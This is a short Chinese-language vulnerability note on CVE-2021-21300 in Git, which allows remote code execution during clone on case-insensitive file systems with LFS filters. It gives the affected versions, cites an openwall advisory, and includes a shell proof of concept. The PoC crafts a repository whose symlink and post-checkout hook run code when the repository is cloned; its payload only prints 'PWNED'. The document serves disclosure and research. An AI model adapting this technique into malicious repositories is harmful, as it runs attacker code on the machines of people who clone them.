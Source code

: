 # Git for Visual Studio远程执行代码漏洞 CVE-2021-21300

## 漏洞描述

此漏洞影响具有不区分大小写的文件系统的平台，当某些过滤器被使用时（例如Git LFS）。Git可能会被欺骗运行克隆期间的远程代码。

## 漏洞影响

> [!NOTE]
>
> v2.17.6，v2.18.5，v2.19.6，v2.20.5，v2.21.4，
> v2.22.5，v2.23.4，v2.24.4，v2.25.5，v2.26.3，v2.27.1，v2.28.1，v2.29.3，
> v2.30.2。

## 漏洞复现

暂无复现

参考文章: https://www.openwall.com/lists/oss-security/2021/03/09/3

## 漏洞利用POC

```sh
#!/bin/sh

git init delayed-checkout &&
(
  cd delayed-checkout &&
  echo "A/post-checkout filter=lfs diff=lfs merge=lfs" \
  	>.gitattributes &&
  mkdir A &&
  printf '#!/bin/sh\n\necho PWNED >&2\n' >A/post-checkout &&
  chmod +x A/post-checkout &&
  >A/a &&
  >A/b &&
  git add -A &&
  rm -rf A &&
  ln -s .git/hooks a &&
  git add a &&
  git commit -m initial
) &&
git clone delayed-checkout cloned
```

